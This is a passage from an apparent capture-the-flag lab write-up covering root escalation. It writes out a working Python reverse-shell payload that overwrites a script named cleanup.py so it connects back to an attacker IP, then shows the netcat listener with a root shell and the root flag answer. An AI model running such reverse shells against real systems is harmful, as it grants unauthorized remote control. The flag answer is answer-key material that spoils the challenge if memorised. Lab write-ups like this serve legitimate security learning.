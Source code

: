 ~~~
printf 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.0.54",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);' > cleanup.py
~~~

## Root flag

In another listener, running on port 5555, we now have a priviledged reverse shell:

~~~
cat unknown@kali:/data/src$ rlwrap nc -nlvp 5555
listening on [any] 5555 ...
connect to [10.9.0.54] from (UNKNOWN) [10.10.127.114] 51940
bash: cannot set terminal process group (1602): Inappropriate ioctl for device
bash: no job control in this shell
root@ubuntu-xenial:~# pwd
pwd
/root
root@ubuntu-xenial:~# ls
ls
root.txt
root@ubuntu-xenial:~# cat root.txt
cat root.txt
7e055812184a5fa5109d5db5c7eda7cd
~~~

Answer: `7e055812184a5fa5109d5db5c7eda7cd`
